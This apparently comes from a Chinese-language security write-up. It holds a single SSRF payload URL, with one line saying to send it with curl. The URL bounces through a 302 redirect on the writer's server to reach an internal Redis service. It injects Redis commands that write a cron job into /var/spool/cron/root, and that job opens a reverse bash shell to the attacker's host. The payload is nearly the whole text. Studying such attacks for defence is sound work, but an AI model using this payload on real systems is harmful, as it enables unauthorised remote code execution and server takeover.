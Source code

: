 <pre class="prettyprint"><code class=" hljs perl"><span class="hljs-keyword">link</span>=http:<span class="hljs-regexp">//www</span>.(vps address).xip.io/<span class="hljs-number">302</span>.php?url=http:<span class="hljs-regexp">//</span><span class="hljs-number">172.17</span>.<span class="hljs-number">0</span>.<span class="hljs-number">4</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0A</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0A</span><span class="hljs-variable">%2a3</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0A</span><span class="hljs-variable">%243</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0Aset</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0A</span><span class="hljs-variable">%241</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0Aa</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0A</span><span class="hljs-variable">%2464</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0A</span><span class="hljs-variable">%0a</span><span class="hljs-variable">%2a</span><span class="hljs-variable">%2f1</span><span class="hljs-variable">%20</span><span class="hljs-variable">%2a</span><span class="hljs-variable">%20</span><span class="hljs-variable">%2a</span><span class="hljs-variable">%20</span><span class="hljs-variable">%2a</span><span class="hljs-variable">%20</span><span class="hljs-variable">%2a</span><span class="hljs-variable">%20</span><span class="hljs-variable">%2fbin</span><span class="hljs-variable">%2fbash</span><span class="hljs-variable">%20</span>-i<span class="hljs-variable">%20</span><span class="hljs-variable">%3E</span><span class="hljs-variable">%26</span><span class="hljs-variable">%20</span><span class="hljs-variable">%2fdev</span><span class="hljs-variable">%2ftcp</span><span class="hljs-variable">%2f</span>(vps address)<span class="hljs-variable">%2f12345</span><span class="hljs-variable">%200</span><span class="hljs-variable">%3E</span><span class="hljs-variable">%261</span><span class="hljs-variable">%0a</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0Aconfig</span><span class="hljs-variable">%20set</span><span class="hljs-variable">%20dir</span><span class="hljs-variable">%20</span><span class="hljs-variable">%2fvar</span><span class="hljs-variable">%2fspool</span><span class="hljs-variable">%2fcron</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0Aconfig</span><span class="hljs-variable">%20set</span><span class="hljs-variable">%20dbfilename</span><span class="hljs-variable">%20root</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0Asave</span><span class="hljs-variable">%0d</span><span class="hljs-variable">%0A</span>:<span class="hljs-number">6379</span>/</code></pre>
<p>利用crul 方法发送出去</p>